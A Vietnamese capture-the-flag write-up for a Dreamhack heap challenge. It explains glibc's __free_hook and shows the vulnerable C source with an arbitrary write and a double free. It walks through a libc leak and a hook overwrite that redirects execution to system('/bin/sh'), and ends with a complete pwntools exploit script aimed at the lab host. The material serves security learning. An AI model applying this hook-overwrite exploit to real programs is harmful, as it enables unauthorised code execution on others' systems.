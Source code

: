 # Hook
- Về cơ bản "hook" thường được sử dụng để chỉ các điểm trong mã nguồn mà bạn có thể mở rộng hoặc tùy chỉnh hành vi. Một hook (hoặc còn được gọi là "giắc cắm") cho phép bạn gắn kết mã của riêng bạn vào một phần của mã nguồn đã tồn tại mà không cần sửa đổi mã nguồn gốc. Khi điều kiện nào đó xảy ra, mã của bạn sẽ được gọi và thực thi.
- cách để khai thác thì bạn có thể hiểu như sau:
    - Thư viện GNU C cung cấp các biến như `__malloc_hook`,` __realloc_hook` và `__free_hook`
    dùng để sửa đổi hành vi thực thi lệnh của các hàm như `malloc`, `realloc` và `free` bằng cách là các hàm trên sẽ gọi lên các biến hook để thực thi 1 địa chỉ mà các biến hook đó trỏ tới.
    ![Alt text](image-1.png)
- Để có thể hiểu rõ hơn về nguyên lý hoạt động của hook chúng ta có thể tham khao bài sau , 1 trong các cách mà ta có thể `OW hook`.
## Hướng giải
### 1. Source
```
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}

```
### 2. Hướng giải
- Vừa nhìn vào bài thì ta có thể thấy ở đây:
    ![Alt text](image-3.png)
- Thì ở đây là 1 con trỏ nó đc trỏ vào biến `buf` mà ta `read` vào ở trên.
- Với cấu trúc của 1 con trỏ thì 8byte đầu nó nhận vào và 8byte sau nhập vào, ta có thể hiểu rằng là 8byte đầu sẽ là 1 địa chỉ và 8 byte sau sẽ là dữ liệu ta muốn đc nhập vào nó có thể là 1 `giá trị` hay 1 `địa chỉ` để sau khi `free(buf)` nó sẽ thực thi 1 địa chỉ mà 1 `hook` đang trỏ tới.
![Alt text](image-5.png)
- Bạn có thể thấy ảnh trên khi ta nhập 8byte `A` và 8byte `B` thì ngay lập tức chương trình đã gán `BBBBBBBB` vào địa chỉ `AAAAAAAA` , đồng thời chương trình cũng thực hiện `free()` tận 2 lần thế nên ta phải thực hiện ở lần `free()` đầu tiên là gán 8byte đầu = địa chỉ của `hook` và 8byte sau = địa chỉ `system` ,  để ở lần `free()` đầu tiên nó sẽ thực thi luôn hàm `system` nếu không ta sẽ bị vướn vào lỗi `double free` với cùng 1 `chunks` mà không có cách nào fix được. Đó là lý do ta không **bắt buộc** phải cho nó thực thi `system` ngay ở `free()` đầu tiên.
- Bắt tay vào làm thì chương trình đã cho ta địa chỉ của `stdout` , với địa chỉ trên ta có thể leak đc `libc_base` từ đó ta có thể tìm đc địa chỉ của `hook`.
- ![Alt text](image-6.png)
- Với source code trên ta có thể thấy đơn giản là leak `libc_base` sau đấy là gọi ra địa chỉ `hook` tương ứng với `free()` là `__free_hook` và truyền vào đấy 1 giá trị test để xem ta đã gán được chưa và khi thử thì ta đã thành công gán vào đc địa chỉ của hook rồi ( đặt breakpoint ở `free()` đầu để xem ) , tiếp theo chỉ thì ta chỉ cần để cho hàm `free()` nó thực thi địa chỉ của `system` là xong..
![Alt text](image-7.png)
- Hãy nhìn hình trên , về cơ bản sau khi `free()` thực thì nó sẽ nhảy thẳng đến địa chỉ đó và thực thi nó , đồng nghĩa với việc ở trường hợp này ta đang skip 1 đoạn của chương trình khiến nó ko thực thi 2 lần `free()` liên tiếp mà nhảy thẳng tới chỗ `system` luôn nên sẽ không bị lỗi `double free` nữa, giống như cách ta đang cố `return` tới thẳng thứ ta muốn mà không cần phải thỏa các điều kiện khác.
- Ta hoàn thiện source code như sau:
    ![Alt text](image-8.png)
    - bước tiếp theo ta nối thử sever và chạy thử source code xem có thành công không nhóe.
    ![Alt text](image-9.png)
    - Sau khi nối với sever thì ta đã thành công thu đc flag r :Đ .

### 3. Source code
```
#!/usr/bin/python3

from pwn import *

exe = ELF('hook_patched', checksec=False)
libc = ELF('libc-2.23.so', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x0000000000400a00

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('host3.dreamhack.games', 23204)
else:
        p = process(exe.path)

GDB()
p.recvuntil(b"stdout: ")
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
info('libc_leak: ' + hex(libc_leak))
info('libc_base: ' + hex(libc.address))

sla(b"Size: ", b'512')
payload = flat(
    libc.sym['__free_hook'], 0x0000000000400a11 # ở địa chỉ này chỉ kẹp 1 địa chỉ vào rdi không ảnh hưởng gì đến chương trình 
                                                # nên ta nhảy vào đây cho chắc ăn :Đ
)
sla(b"Data: ", payload)

p.interactive()
```